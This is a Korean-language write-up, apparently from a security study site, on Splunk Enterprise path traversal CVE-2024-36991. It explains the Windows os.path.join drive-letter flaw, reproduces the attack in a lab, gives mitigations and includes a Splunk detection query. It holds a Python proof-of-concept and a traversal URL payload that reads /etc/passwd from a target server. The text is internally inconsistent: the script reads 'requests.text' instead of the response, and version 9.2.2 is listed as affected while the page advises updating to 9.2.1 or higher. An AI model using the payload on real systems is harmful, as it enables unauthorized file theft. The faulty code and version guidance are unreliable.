 ```yaml
---
layout: default
title: cve-2024-36991
category: "etc"
nav_order: 4
parent: cve
---
```


# cve-2024-36991
{: .no_toc }

Splunk Enterprise Path Traversal 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Splunk][Splunk]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[PoC][PoC]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Splunk의 /modules/messaging/ 엔드포인트에서 발생하는 경로 탐색(Path Traversal) 취약점

## 1.2 취약 대상
- Windows 환경에서 동작하는 Splunk Enterprise에서 다음 버전이 영향
- Splunk Enterprise 9.2.0 ~ 9.2.1
- Splunk Enterprise 9.2.2
- Splunk Enterprise 9.1.0 ~ 9.1.4
- Splunk Enterprise 9.1.5
- Splunk Enterprise 9.0.0 ~ 9.0.9
- Splunk Enterprise 9.0.10

## 1.3 공격 원리
- 취약점은 /modules/messaging/ 엔드포인트에 조작된 경로를 포함한 url을 요청
- Splunk Web은 해당 경로를 os.path.join[주1] 함수를 사용하여 결합 
- Winodws 환경에서는 중복된 드라이브 문자가 제거되는 특성을 이용
- 공격자는 이 취약점을 악용하여 민감한 파일에 접근하여 정보를 탈취
![](../../assets/images/cve-2024-36991/attack.png)

---

## 1.4 Splunk의 취약한 설정 분석
- CVE-2024-36991의 취약점이 존재하는 환경은 다음과 같은 조건을 만족
- Splunk Web 활성화, Windows 환경에서 동작, modules/messaging 엔드포인트가 open
- 이러한 조건을 갖춘 환경에서는, 공격자가 조작된 URL을 통해 경로 탐색(Path Traversal) 공격 가능 

<br>

- 이 취약점은 Splunk Web이 활성화된 인스턴스에서 발생
- Splunk Web의 설정 파일(web.conf)에서 startwebserver 옵션을 1로 설정하여 취약한 환경 구현
![](../../assets/images/cve-2024-36991/conf.png)

<br> 

- Windows환경에서 os.path.join() 함수가 어떻게 작동하는지 확인
- Splunk의 /modules/messaging/ 엔드포인트는 파일을 불러올 때 사용자가 입력한 경로를 합쳐 처리
- 정상적인 경우, os.path.join()은 경로를 연결 (C:\Program Files\Splunk\data\logs\test.log)
 ![](../../assets/images/cve-2024-36991/path_1.png)

 <br>

- 비정상적인 경우, 공격자가 새로운 “C:\\” 경로를 추가
- “C:\\”(드라이브 문자가 다시 등장하는 경우) 이후의 값을 기준으로 새로운 경로를 생성
- 결과적으로 기본 경로가 무시되고 공격자가 원하는 파일로 접근(C:\\SKT\\Infra보안\\skt_nsc.excel)
![](../../assets/images/cve-2024-36991/path_2.png)

---

## 1.5 환경 구성
- Victim: Windows10 (IP: 192.168.253.123)
- Attacker: Windows10 (IP: 192.168.253.77)

<br>

- 취약한 Splunk 서버 환경 구축 (Splunk Enterprise 9.1.2)
- 취약점이 존재하는 Splunk Enterprise 9.1.2 서버 구축
![](../../assets/images/cve-2024-36991/splunk.png)

---

## 1.6 공격 재현
- Python을 이용한 조작된 GET 요청을 통한 Splunk 서버 공격
- 조작된 경로 생성 (“/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd”)
- 조작된 GET 요청을 서버로 전송하고, 응답에서 /etc/passwd 파일 노출 확인

```py
url = "http://192.168.253.123:8000"
attack_url = "/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd"
def attack_request(url):
    try:
        fullurl = f"{url}{attack_url}" # 조작된 경로를 포함한 URL 생성
        response = requests.get(fullurl, verify=False)
        if response.status_code == 200:
            body = requests.text
            # 응답에서 'admin:' 문자열이 포함되면 출력
            if body is not None and 'admin:' in body:
                print_message('vulnerable', f"Vulnerable: {url}")
                print(body) # 서버에서 응답받은 파일 내용 출력
        else:
            print_message("warning", f"Not Vulnerable: {url}")
            return response.text 
    except requests.RequestException:
        return None
```

<br>

- 실제 /etc/passwd 파일은 아래와 같음
![](../../assets/images/cve-2024-36991/passwd.png)

<br>

- 공격 실행 결과, 서버에서 /etc/passwd 파일의 실제 내용이 성공적으로 출력
![](../../assets/images/cve-2024-36991/cmd.png)

<br>

- Burp Suite를 사용하여 실제 페이로드의 응답을 확인한 결과, /etc/passwd 파일의 내용이 포함
![](../../assets/images/cve-2024-36991/burp.png)

---

## 1.7 대응 방안
- Splunk Enterprise 버전 9.2.1 이상으로 업데이트
- Splunk Web 비활성화
- Splunk /modules/messaging/ 경로 탐색(Path Traversal) 공격 탐지 쿼리

```spl
`splunkd_web` method=GET uri_path="/*/modules/messaging/*..*" 
| stats min(_time) as firstTime max(_time) as lastTime values(method) as method values(uri_path) as uri_path by host 
| `security_content_ctime(firstTime)` 
| `security_content_ctime(lastTime)` 
| `splunk_unauthenticated_path_traversal_modules_messaging_filter`
```

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/cve-2024-36991
[Splunk]: https://advisory.splunk.com/advisories/SVD-2024-0711
[PoC]: https://github.com/bigb0x/CVE-2024-36991
